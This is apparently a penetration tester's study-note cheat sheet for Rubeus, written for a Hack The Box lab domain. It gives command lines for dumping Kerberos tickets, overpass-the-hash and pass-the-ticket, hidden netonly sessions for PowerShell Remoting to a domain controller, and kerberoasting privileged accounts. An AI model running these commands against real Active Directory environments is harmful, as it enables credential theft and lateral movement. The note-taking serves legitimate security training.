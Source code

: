 ```yaml
---
tags:
  - windows
  - kerberoasting
  - PtT
  - PtH
---
```

# Modules
## Dump Kerberos Ticket Data
```cmd-session
> Rubeus.exe dump /nowrap
```
`dump` to print the ticket in base64 (easy copy-paste)

# Pass the Key / OverPass the Hash
Use the module `asktgt` with username, domain, and hash (`/rc4`, `/aes128`, `/aes256`, or `/des`). The hash can be collected using [[Mimikatz]] `sekurlsa::ekeys`.
```cmd-session
> Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:<AES-KEY> /nowrap
```

Instead of retrieving the ticket in base64, we could use the flag `/ptt` to submit the ticket (TGT or TGS) to the current logon session.
```cmd-session
> Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:<RC4-HASH> /ptt
```
## Alternate Methods
1. Using harvested keys in `.kirbi`
We can import the ticket (created using Mimikatz [[Mimikatz#Export Tickets|Export Tickets]] module) into the current session.
```cmd-session
> Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
2. Pass base64 ticket
	- Convert `.kirbi` to Base64 Format
```powershell-session
PS > [Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```
Now we can pass this base64 instead of filename
```cmd-session
> Rubeus.exe ptt /ticket:<BASE64-TICKET>
```
>**Note:** Mimikatz requires administrative rights for Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

# Powershell Remoting with PtT
The option `createnetonly` creates a sacrificial process/logon session ([Logon type 9](https://eventlogxp.com/blog/logon-type-what-does-it-mean/)) which is hidden by default, but can be displayed using `/show` (equivalent of `runas /netonly`). This prevents the erasure of existing TGTs for the current logon session.
```cmd-session
> Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```
This should open a new CMD window from where we can execute Rubeus to request a new TGT, using `ptt`, to import the ticket into the current session and connect to the DC using PS Remoting.
```powershell
PS > Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:<AES-KEY> /ptt
> powershell
PS > Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:<AES-KEY> /ptt
```
# Kerberoasting
## Gather Stats
```powershell
PS > .\Rubeus.exe kerberoast /stats
```
## Retrieve TGS Tickets
- Request tickets of accounts with `admincount=1` (high value targets):
```powershell
PS > .\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
- Request ticket for a specific user:
```powershell
PS > .\Rubeus.exe kerberoast /user:<USER> /nowrap
```
## Usefule Flags
- `/tgtdeleg`: Retrieve only `RC4` encrypted ticket (Does not work on Server 2019+)
